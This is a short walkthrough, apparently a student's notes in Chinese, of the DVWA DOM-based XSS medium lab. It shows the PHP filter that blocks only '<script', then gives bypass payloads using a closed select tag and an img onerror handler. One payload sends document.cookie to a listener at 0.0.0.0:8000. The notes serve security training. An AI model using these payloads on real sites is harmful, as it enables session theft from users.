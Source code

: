 # XSS (DOM) - Medium

## View Source

```PHP
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

- [`array_key_exists($a, $b)`](https://www.php.net/manual/zh/function.array-key-exists.php)
    - *b* 裡存在 *a* (*key*) 就回傳 *true*；沒有就回傳 *false*
- [`is_null($a)`](https://www.php.net/manual/zh/function.is-null.php)
    - *a* 是 *null* 就回傳 *true*；不是 *null* 就回傳 *false*
- [`stripos($a, $b)`](https://www.php.net/manual/zh/function.stripos.php)
    - 回傳 *b* 在 *a* 第一次出現的位置 (不分大小寫)

## Code Review

- 如果存在 *default* 且不為空
- 就檢查有沒有 `<script` 這個關鍵字
- 有的話就重導向成 `?default=English`

## Answer

- 可參考 [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- 透過 `img` *tag* 來觸發並執行惡意的 *JavaScript* 語句
    - 因為下拉式選單不能塞 `img`，所以要先關閉

### Example

```
http://127.0.0.1/vulnerabilities/xss_d/?default=</option></select><img src onerror=alert(1)>
http://127.0.0.1/vulnerabilities/xss_d/?default=</option></select><img src onerror="window.open('http://0.0.0.0:8000/?cookie=' + document.cookie)">
```